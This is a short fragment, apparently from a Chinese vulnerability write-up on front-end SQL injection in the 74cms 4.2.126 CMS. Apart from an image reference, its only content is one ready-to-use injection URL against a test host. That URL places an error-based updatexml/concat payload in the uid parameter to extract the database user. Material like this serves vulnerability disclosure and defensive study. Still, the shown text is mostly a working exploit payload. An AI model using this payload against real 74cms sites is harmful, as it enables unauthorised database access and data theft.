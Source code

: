 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId34.png)

    输入url: http://74cms.test/index.php?m=Home&c=index&a=index&uid[0]=match&uid[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a
